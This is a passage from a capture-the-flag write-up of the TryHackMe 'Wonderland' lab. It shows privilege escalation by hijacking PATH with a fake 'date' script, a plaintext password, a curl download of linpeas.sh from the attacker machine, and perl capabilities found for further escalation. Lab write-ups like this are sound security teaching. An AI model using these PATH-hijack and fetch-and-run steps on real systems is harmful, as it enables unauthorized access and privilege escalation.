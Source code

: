 ``` sh
┌──(kali㉿kali)-[~/Documents/THM/CTF/Wonderland]
└─$ strings teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

We see that it always return *Segmentation fault (core dumped)* whatever we provide to it.
We also see it uses date so we can make our own *date* to elevate our privileges.

![date](/assets/img/images/thm_ctf_wonderland_writeup/BJc8Hf8ga.png)

We export our new PATH to make our date script being used first instead of the real date.

``` sh
rabbit@wonderland:/home/rabbit$ chmod 777 ./date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?

```

We use linpeas to search if there's any vulnerabilities on the system.
We can send it using `python -m http.server 8080` on our attacker machine.

``` sh

hatter@wonderland:/home/hatter$ curl 10.11.24.118:8080/linpeas.sh > linpeas.sh 
hatter@wonderland:/home/hatter$ chmod 700 ./linpeas.sh
```

Before executing it, we'll use an ssh connection to avoid any problems in the future.

``` sh
┌──(kali㉿kali)-[~]
└─$ ssh hatter@10.10.184.203                        
hatter@10.10.184.203's password:
hatter@wonderland:~$ ./linpeas.sh
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
